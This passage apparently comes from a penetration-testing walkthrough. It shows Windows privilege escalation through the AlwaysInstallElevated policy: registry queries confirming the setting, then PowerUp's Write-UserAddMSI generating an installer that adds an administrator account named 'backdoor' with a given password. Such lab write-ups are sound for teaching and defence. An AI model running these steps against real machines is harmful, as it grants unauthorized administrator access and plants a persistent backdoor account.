 Using `PowerUp.ps1`, we find that [Always Install Elevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) key is present and set.

We can also validate this using the Command Prompt by querying the corresponding registry keys:

```cmd-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
```

Once more, we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop.

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123` under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

